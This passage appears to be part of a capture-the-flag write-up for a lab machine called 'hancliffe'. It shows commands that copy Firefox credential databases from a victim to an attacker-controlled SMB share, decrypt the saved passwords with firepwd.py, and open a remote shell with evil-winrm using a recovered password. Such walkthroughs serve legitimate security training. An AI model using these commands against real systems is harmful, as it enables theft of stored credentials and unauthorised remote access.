 ```
PS C:\Users\clara> net use y: \\10.10.14.74\files /user:sm1l3z '$V#(NM&cfm#M(a'
The command completed successfully.

PS C:\Users\clara> cp logins.json y:
PS C:\Users\clara> cp key4.db y:
PS C:\Users\clara> cp storage.sqlite y:
PS C:\Users\clara> cp places.sqlite y:
```

Now we can use [firepwd.py](https://github.com/lclevy/firepwd) to dump the credentials stored. This reveals what seems to be the master password for the password manager running on port 8000.

```
$ python firepwd.py -d ../exfil/
globalSalt: b'9a30912b4d63331f8493789d7b0fce68520f9265'
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes
...[snip]...
clearText b'9efbbfd986fd5bef94b032679b7679d09b1f51891601b6e50808080808080808'
decrypting login/password pairs
http://localhost:8000:b'hancliffe.htb',b'#@H@ncLiff3D3velopm3ntM@st3rK3y*!'
```

With this password we can use the app to retrieve the password of the development user.

[![08_retrieve_pw](/img/hancliff/08_retrieve_pw.png)](/img/hancliff/08_retrieve_pw.png)

Testing the credentials against winrm we are able to log into the machine.

```
$ proxychains evil-winrm -u development -p 'AMl.q2DHp?2.C/V0kNFU' -i hancliffe.htb
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\development\Documents>
```
